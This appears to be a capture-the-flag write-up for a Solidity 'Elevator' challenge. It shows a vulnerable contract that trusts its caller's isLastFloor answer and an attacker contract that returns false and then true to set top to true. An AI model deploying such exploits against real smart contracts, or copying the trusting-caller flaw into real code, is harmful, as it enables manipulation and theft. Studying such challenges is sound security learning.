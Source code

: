 <img src="elevator.png" alt="elevator" />

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

<hr />

# Hack

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IElevator{
    function goTo(uint _floor) external;
}

contract Building {
    uint256 index = 0;
    
    constructor() public {}

    function isLastFloor(uint) external returns (bool) {
        if (index == 0) {
            index++;
            return false;
        }
        return true;
    }

    function goTo(uint _floor, address _targetAddress) public {
        IElevator(_targetAddress).goTo(_floor);
    }
}
```

Basicially to solve this level, top state variable should be changed to true. For this we write a Building contract with isLastFloor function which returns false on first call and true on second call. So, we solve this by introducing a variable index to check the first and second call and reach top of the building setting top to true.
So we call the goTo function from the Building contract which in turn calls isLastFloor function of the Building contract and we finally reach to the top of the building.